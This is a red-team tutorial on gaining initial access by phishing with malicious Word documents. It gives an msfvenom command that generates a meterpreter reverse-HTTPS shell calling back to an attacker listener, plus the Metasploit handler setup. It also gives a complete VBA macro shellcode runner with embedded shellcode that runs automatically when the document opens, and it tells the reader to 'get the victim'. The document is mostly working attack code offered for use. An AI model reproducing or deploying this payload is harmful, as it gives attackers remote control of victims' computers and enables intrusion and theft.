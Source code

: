 # Initial Access via Phishing

This is for Microsoft Office Word. We assume we are using meterpreter to catch the shell and we will be generating payloads according to the Windows Office version present on the victim. Generally x86 for Office 2016 and x64 for Office 2021/365

We start with the simplest payload which is to create a direct VBA shellcode runner with no obfuscation and then escalate accordingly with obfuscation, powershell and C# usage.

[Round 1: The Simple Direct VBA Shellcode Runner]()



# Round 1: The Simple Direct VBA Shellcode Runner {#a}
**Traits**
- As simple as it gets. All VBA with help from Win32APIs
- Unlikely to evade AV
- Dies the moment the victim closes Word. So you need to migrate to another process quick or you have some pretexting magic to keep the victim on the Word document


The malicious payload generated as such:

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.231 LPORT=443 EXITFUNC=thread -f vbapplication
```

Open Listener
```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > set EXITFUNC thread
EXITFUNC => thread

```

Slot the below into a macro in a .doc file, and get the victim. the buf variable is where your msfvenom payloads goes to

```vba
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
	Dim buf As Variant
	Dim addr As LongPtr
	Dim counter As Long
	Dim data As Long
	Dim res As LongPtr

	buf = Array(252,232,143,0,0,0,96,49,210,137,229,100,139,82,48,139,82,12,139,82,20,49,255,15,183,74,38,139,114,40,49,192,172,60,97,124,2,44,32,193,207,13,1,199,73,117,239,82,139,82,16,139,66,60,1,208,139,64,120,133,192,87,116,76,1,208,80,139,72,24,139,88,32,1,211,133,201,116,60,49,255, _
73,139,52,139,1,214,49,192,193,207,13,172,1,199,56,224,117,244,3,125,248,59,125,36,117,224,88,139,88,36,1,211,102,139,12,75,139,88,28,1,211,139,4,139,1,208,137,68,36,36,91,91,97,89,90,81,255,224,88,95,90,139,18,233,128,255,255,255,93,104,110,101,116,0,104,119,105,110,105,84, _
104,76,119,38,7,255,213,49,219,83,83,83,83,83,232,127,0,0,0,77,111,122,105,108,108,97,47,53,46,48,32,40,105,80,97,100,59,32,67,80,85,32,79,83,32,49,55,95,55,32,108,105,107,101,32,77,97,99,32,79,83,32,88,41,32,65,112,112,108,101,87,101,98,75,105,116,47,54,48,53, _
46,49,46,49,53,32,40,75,72,84,77,76,44,32,108,105,107,101,32,71,101,99,107,111,41,32,86,101,114,115,105,111,110,47,49,56,46,48,32,77,111,98,105,108,101,47,49,53,69,49,52,56,32,83,97,102,97,114,105,47,54,48,52,46,49,0,104,58,86,121,167,255,213,83,83,106,3,83,83,104, _
187,1,0,0,232,92,1,0,0,47,67,77,89,117,49,107,103,105,78,100,51,87,114,116,101,118,118,112,120,85,74,65,72,70,52,55,109,99,104,67,66,83,51,122,97,90,104,65,67,54,86,69,51,79,104,56,80,99,120,122,54,88,97,55,73,76,115,98,120,118,79,76,120,111,54,54,52,103,117,81, _
69,78,115,45,110,79,54,99,52,66,49,76,97,110,84,77,86,106,101,52,100,110,108,82,110,70,97,76,108,48,65,49,100,121,122,57,66,89,56,71,115,99,80,82,83,115,68,118,83,50,71,108,89,97,78,116,101,104,72,51,66,68,101,120,65,85,76,121,56,83,97,48,73,122,85,70,102,113,90,101, _
112,90,55,77,114,71,119,116,119,81,83,78,71,66,117,65,89,71,87,82,71,83,108,51,84,57,84,107,100,68,108,85,65,108,106,98,116,95,112,100,71,90,103,89,99,68,84,71,50,48,98,52,89,0,80,104,87,137,159,198,255,213,137,198,83,104,0,50,232,132,83,83,83,87,83,86,104,235,85,46, _
59,255,213,150,106,10,95,104,128,51,0,0,137,224,106,4,80,106,31,86,104,117,70,158,134,255,213,83,83,83,83,86,104,45,6,24,123,255,213,133,192,117,20,104,136,19,0,0,104,68,240,53,224,255,213,79,117,205,232,75,0,0,0,106,64,104,0,16,0,0,104,0,0,64,0,83,104,88,164,83, _
229,255,213,147,83,83,137,231,87,104,0,32,0,0,83,86,104,18,150,137,226,255,213,133,192,116,207,139,7,1,195,133,192,117,229,88,195,95,232,107,255,255,255,49,57,50,46,49,54,56,46,52,53,46,50,51,49,0,187,224,29,42,10,104,166,149,189,157,255,213,60,6,124,10,128,251,224,117,5,187, _
71,19,114,111,106,0,83,255,213)

	addr = VirtualAlloc(0, Ubound(buf), &H3000, &H40)

	For counter = Lbound(buf) To Ubound(buf)
		data = buf(counter)
		res = RtlMoveMemory(addr + counter, data, 1)
	Next counter

	res = CreateThread(0,0,addr,0,0,0)
End Function

Sub Document_Open()
	MyMacro
End Sub

Sub AutoOpen()
	MyMacro
End Sub
```